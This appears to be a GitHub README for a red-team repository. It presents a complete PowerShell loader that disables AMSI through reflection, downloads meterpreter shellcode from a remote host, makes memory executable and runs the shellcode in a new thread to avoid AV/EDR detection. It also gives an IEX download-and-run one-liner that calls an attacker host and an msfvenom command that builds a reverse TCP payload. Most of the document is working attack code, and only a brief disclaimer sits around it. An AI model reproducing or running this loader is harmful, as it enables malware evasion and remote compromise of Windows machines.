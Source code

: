 # amsi-bypass-inmemory-loader



# AMSI Bypass + In-Memory PowerShell Loader

This repository demonstrates a common technique used in red team operations and penetration testing to bypass **AMSI (Antimalware Scan Interface)** and execute shellcode directly in memory without touching the disk. This approach is particularly useful to evade static and runtime detections by antivirus and EDR solutions.

## 🔍 Overview

During a penetration testing engagement on a Windows 10 Pro (Build 19045) system, this PowerShell-based loader was used to download and inject a meterpreter reverse TCP shellcode (`mt.raw`) directly into the memory of the current process. The payload was executed without creating files on the filesystem, minimizing the forensic footprint and circumventing disk-based scanning.

## 🛠️ Script Logic

```powershell
[string1] = "System.Management.Automation.Amsi" + "Utils"
[string2] = "amsiInit" + "Failed"
[type]   = [Ref].Assembly.GetType($string1)
[field]  = $type.GetField($string2, [Reflection.BindingFlags]"NonPublic,Static")
$field.SetValue($null, $true)

$data = (New-Object Net.WebClient).DownloadData('http://192.168.1.13/mt.raw')
$size = $data.Length
$addr = [System.Runtime.InteropServices.Marshal]::AllocHGlobal($size)
[System.Runtime.InteropServices.Marshal]::Copy($data, 0, $addr, $size)

Add-Type -MemberDefinition @'
[DllImport("kernel32.dll")]
public static extern bool VirtualProtect(IntPtr lpAddress, uint dwSize, uint flNewProtect, out uint lpflOldProtect);
'@ -Name NativeMethods -Namespace Win32
[Win32.NativeMethods]::VirtualProtect($addr, [uint32]$size, 0x40, [ref][uint32]0)

$kernel32Type = Add-Type -MemberDefinition @'
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(uint lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
[DllImport("kernel32.dll")]
public static extern uint WaitForSingleObject(IntPtr hHandle, uint dwMilliseconds);
'@ -Name Kernel32Functions -Namespace Win32

$hThread = [Win32.Kernel32Functions]::CreateThread(0, 0, $addr, 0, 0, 0)
[Win32.Kernel32Functions]::WaitForSingleObject($hThread, 0xFFFFFFFF)

```

🔐 What This Script Does
Bypass AMSI by patching the field amsiInitFailed to true, disabling its runtime functionality.
Download a raw payload from a remote attacker-controlled web server (mt.raw).
Allocate memory using AllocHGlobal and copy the payload into it.
Set memory protection to PAGE_EXECUTE_READWRITE to allow payload execution.
Spawn a new thread pointing to the payload, enabling execution without disk writes.
⚠️ Security Notice
This technique is for authorized penetration testing only.
It is designed to avoid detection from static and runtime AV systems — use responsibly.
Never run unknown PowerShell scripts without full understanding of their consequences.
🧪 Example Usage
You can run the script from a Meterpreter session or standalone PowerShell prompt with appropriate permissions:

powershell

```

IEX (New-Object Net.WebClient).DownloadString('http://ATTACKER_IP/loader.ps1')

```
Or locally:

powershell


```
.\loader.ps1
```

Ensure your payload (mt.raw) is prepared via msfvenom:

bash

```

msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.1.13 LPORT=4444 -f raw -o mt.raw

```

✅ Requirements
Windows PowerShell 5.1 or PowerShell Core 7+
.NET Framework and Reflection support
Internet access (if downloading the payload remotely)
License
All content in this repository is intended for educational and authorized security testing purposes only.

© HACKERAIPENTEST 2025 – All Rights Reserved



